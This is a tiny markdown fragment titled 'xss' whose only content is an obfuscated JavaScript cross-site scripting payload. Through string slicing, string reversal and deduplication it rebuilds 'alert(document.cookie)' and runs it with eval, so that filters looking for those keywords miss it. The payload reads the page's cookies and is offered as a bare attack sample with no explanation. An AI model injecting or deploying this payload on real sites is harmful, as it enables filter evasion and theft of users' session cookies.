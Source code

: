 # xss

<script>x=([]+/alert/g).substr(1,5);w='seikooc'.split("").reduce((acc, char) => char + acc, "");bom='document,document,document';hack=[...new Set(bom.split(","))].join(",");z=x+"("+hack+'.'+w+")";z;eval(z);</script>
